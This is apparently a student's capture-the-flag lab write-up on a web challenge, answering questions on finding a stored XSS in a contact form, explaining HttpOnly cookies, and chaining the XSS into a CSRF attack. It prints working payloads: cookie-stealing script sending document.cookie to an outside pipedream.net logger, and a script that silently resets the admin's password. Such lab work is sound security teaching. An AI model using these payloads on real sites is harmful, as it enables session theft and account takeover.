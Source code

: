 # SLH lab 1

## 2 Basic CSRF

### 2.1. The website is also vulnerable to an XSS. How can you detect it?

Using *pipedream.com*, we log the requests that are sent to `https://eobnzz43rvm4g8a.m.pipedream.net`

In the contact form, we send this message :

```
<script>window.location.href = "https://eobnzz43rvm4g8a.m.pipedream.net?bonjour=bonjour";</script>
```

In pipedream we see that a request was received with the param `bonjour=bonjour`, so we know that the script in our message was sent by the vulnerable server to the admin.

### 2.2. Try to exfiltrate the admin cookie with the XSS. It does not work because of http-only. Explain what is http-only and how it prevents the exfiltration.

In the contact form, we send this message :

```
<script>window.location.href = "https://eobnzz43rvm4g8a.m.pipedream.net?cookie="+document.cookie;</script>
```

But we don't receive anything in pipedream.

Http-only is a flag that the server can set when giving a cookie to a client. A http-only cookie will be provided by the client when it sends requests to the server, but is not accessible by the javascript executed by the client.

Consequentially, even if an attacker is able to control the javascript that is executed by a client, the attacker script will not be able to access the cookie.

### 2.3. The website is also vulnerable to a CSRF. Which script is vulnerable?

The script on the server for changing the password. When changing password, the client simply sends a POST request with his session cookie and the new password.

### 2.4. What is the flag of this challenge?

`f_J[w[4LY^^N7*Xe`

### 2.5. How did you obtain the flag? Describe clearly your attack. In particular, explain where the XSS is and what type of XSS it is

The XSS is in the contact form. If we send javascript code in this form, it will be sent back to the admin when he displays the message. This is a stored XSS.

Using our own account, we change our password to "1234" and display the POST request using the developer tools.

We see that
- The request is sent to `/profile/damien.maier@heig-vd.ch`
- The request has a header `Content-type: application/x-www-form-urlencoded`
- The POST payload is `password=1234`

In the contact form, we send this message :
```
<script>
    var url = "/profile/damien.maier@heig-vd.ch_admin";
    var params = "password=1234";
    var xhr = new XMLHttpRequest();
    xhr.open("POST", url, true);
    
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    
    xhr.send(params);
</script>
```
When displaying the message, the admin browser will execute this script. The script sends a POST request with the appropriate header and payload to set the admin password to "1234".
As the script is executed in the admin's browser, the POST request will be sent with the session cookie of the admin.
